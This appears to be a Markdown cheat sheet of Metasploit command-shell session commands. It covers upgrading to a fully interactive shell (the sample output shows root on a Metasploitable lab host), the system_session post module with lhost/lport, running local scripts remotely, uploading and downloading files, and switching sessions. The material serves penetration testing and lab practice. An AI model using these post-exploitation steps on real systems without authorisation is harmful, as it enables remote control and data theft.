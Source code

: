 # Usage

Search Tag(s): #metasploit-framework #command-and-control #living-off-the-land

## 01 - Help Menu

```
help

Meta shell commands
===================

    Command     Description
    -------     -----------
    help        Help menu
    background  Backgrounds the current shell session
    sessions    Quickly switch to another session
    resource    Run a meta commands script stored in a local file
    shell       Spawn an interactive shell (*NIX Only)
    download    Download files
    upload      Upload files
    source      Run a shell script on remote machine (*NIX Only)
    irb         Open an interactive Ruby shell on the current session
    pry         Open the Pry debugger on the current session
```

## 02 - Fully Interactive Shell

### 2.1 - Interactive Meta Shell

Make the Meta shell fully interactive. To make full use with other commands such as, `passwd` and `su [username]`.

```
[*] Command shell session 1 opened (10.0.2.4:34869 -> 192.168.56.106:6200 ) at 2022-03-29 03:43:52 -0400

shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash
root@metasploitable:/# id
id
uid=0(root) gid=0(root)
root@metasploitable:/#
```

### 2.2 - Post Module

```
msf > use post/multi/manage/system_session

msf post(multi/manage/system_session) > options

msf post(multi/manage/system_session) > set session <session_ID>

msf post(multi/manage/system_session) > set type <auto | ruby | python | perl | bash>

msf post(multi/manage/system_session) > set handler <false | true>

msf post(multi/manage/system_session) > set lhost <IP>

msf post(multi/manage/system_session) > set lport <PORT>

msf post(multi/manage/system_session) > run
```

## 03 - Source Script

Execute a local shell script file on remote machine. `y` represent execute the script in background, `n` represent on foreground

```
source /path/to/local/file.sh <y | n>
```

## 04 - Upload and Download

Upload files.

```
upload /path/to/local/file /path/to/remote/file
```

Download files.

```
download /path/to/remote/file /path/to/local/file
```

## 05 - Switch Interactive Sessions

```
sessions <session_ID>
```

## 06 - Background Session

```
background
```

## 07 - Resource Script to Automate Commands

```
resource /path/to/local/resource_1.rc /path/to/local/resource_n.rc
```

## 08 - Interactive Ruby Shell

```
irb
```

## 09 - Debug Current Session

```
pry
```